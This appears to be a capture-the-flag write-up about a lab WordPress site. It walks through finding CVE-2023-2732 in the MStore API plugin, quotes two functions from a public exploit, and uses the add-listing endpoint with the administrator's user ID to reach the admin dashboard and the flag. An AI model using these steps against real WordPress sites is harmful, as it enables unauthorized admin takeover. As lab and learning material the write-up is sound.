 # CTF Semana #3 (Wordpress CVE)

## Recognition

To begin, we accessed the target at http://143.47.40.175:5001, navigated to the `Shop` section, and selected `WordPress Hosting`. From there, we reviewed the `Additional Information` at the following URL: http://143.47.40.175:5001/product/wordpress-hosting/.

<p align="center" justify="center">
  <img src="./assets/ctf3/plugins.png"/>
</p>

## CVE Research

Next, we conducted a vulnerability search via the [Search CVE List](https://cve.mitre.org/cve/search_cve_list.html). The search query was composed of relevant versions and plugins: `Wordpress 5.8.1 MStore API 3.9.0 WooCommerce 5.7.1 Booster for WooCommerce 5.4.4`.

This search yielded four potential CVEs:

<p align="center" justify="center">
  <img src="./assets/ctf3/CVEs.png"/>
</p>

## CVE Selection

The goal was to exploit a vulnerability that would allow administrative access. After analysis, the most applicable CVEs for this purpose were: `CVE-2023-2734`, `CVE-2023-2733`, and `CVE-2023-2732`.

## Finding an Exploit

While searching for exploits, we discovered a GitHub repository containing an exploit for `CVE-2023-2732`, available [here](https://github.com/RandomRobbieBF/CVE-2023-2732).

Although an attempt to execute the provided script resulted in errors, we analyzed the source code and identified two key functions:

1. **fetch_usernames_rest_api**: This function retrieves the list of WordPress users via the REST API. 

    ```py
    def fetch_usernames_rest_api(wordpress_url):
        headers = {'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36 Edge/16.16299'}
        response = session.get(f"{wordpress_url}/wp-json/wp/v2/users", headers=headers,verify=False,timeout=30)
        ...
    ```
2. **sendem**: This function sends a request that exploits the vulnerability to add administrative permissions for a specified user.
    ```py
    def sendem(user_id, username):
        # Set up the request headers
        headers = {'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.3'}
        # Send the request
        response = session.get(""+wordpress_url+"/wp-json/wp/v2/add-listing?id="+str(user_id)+"", headers=headers,verify=False,timeout=30)
        ...
    ```

The `fetch_usernames_rest_api` function allows us to extract user IDs, and `sendem` facilitates privilege escalation by exploiting the identified vulnerability.

## Exploiting the Vulnerability

1. We accessed http://143.47.40.175:5001/wp-json/wp/v2/users and retrieved the list of users as a JSON response:
<p align="center" justify="center">
  <img src="./assets/ctf3/admin_id.png"/>
</p>

2. From the response, we identified that the Administrator's user ID is `1`.
3. Using the `sendem` function, we crafted a URL to exploit the vulnerability by entering the following into the browser: http://143.47.40.175:5001/wp-json/wp/v2/add-listing?id=1. This effectively granted administrative permissions to our Session.
4. We searched for common URL patterns used for the WordPress admin dashboard and identified http://143.47.40.175:5001/wp-admin/index.php as a potential entry point. Upon accessing this URL, we successfully reached the admin dashboard. From there, we navigated to the **Posts** section, where we found a post titled "Message for our Employers", which contained the CTF flag.